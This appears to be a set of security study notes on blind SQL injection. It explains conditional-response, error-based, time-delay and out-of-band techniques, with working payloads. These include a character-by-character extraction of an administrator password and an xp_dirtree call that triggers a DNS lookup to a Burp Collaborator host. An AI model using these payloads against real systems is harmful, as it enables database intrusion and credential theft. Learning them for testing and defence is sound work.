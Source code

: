 --- ---

<h2>Blind SQL Injection</h2>

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Exploiting Blind SQL Injection by Triggering Conditional Responses
- Cookie Header Example:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
- When a request containing TrackingId cookie is processed, application determines whether this is a known user with a SQL query
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Suppose there is a table called Users with the columns Username and Password, and a user called Administrator. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
- "Welcome Back" message means the first character of the password is greater than "m"
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
- Does not return "Welcome Back" meaning the first character is NOT greater than "t"
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
- Returns "Welcome Back" meaning the password begins with "s"

-------------

<h2>Inducing Conditional Responses by Triggering SQL Errors</h2>
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a

xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

- Uses the "CASE" keyword to test a condition and return a different expression depending on if it's true
- First input, CASE evaluates to 'a' with no errores
- Second input, CASE evaluates to 1/0 which causes a divide-by-zero error
- Use the error response to determine if the character is valid

----------

<h2>Exploiting Blind SQL Injection by Triggering Time Delays</h2>

It is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received

- Testing on Microsoft SQL Server:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--

'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- First input will not cause a delay because 1=2 is false
- Second input will cause a 10 second delay because 1=1 is true

---------

<h2>Exploiting Blind SQL Injection Using Out-Of-Band (OAST) Techniques</h2>

Trigger blind SQL injection vulnerability by triggering out-of-band network interactions to a system you control often via DNS
- Performed with Burp Collaborator (need Burp Suite Professional)
- Input for Microsoft SQL
```
'; exec master..xp_dirtree
'//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

- Causes the database to perform a lookup for the following domain - 0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
- Use "Collaborator Client" to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur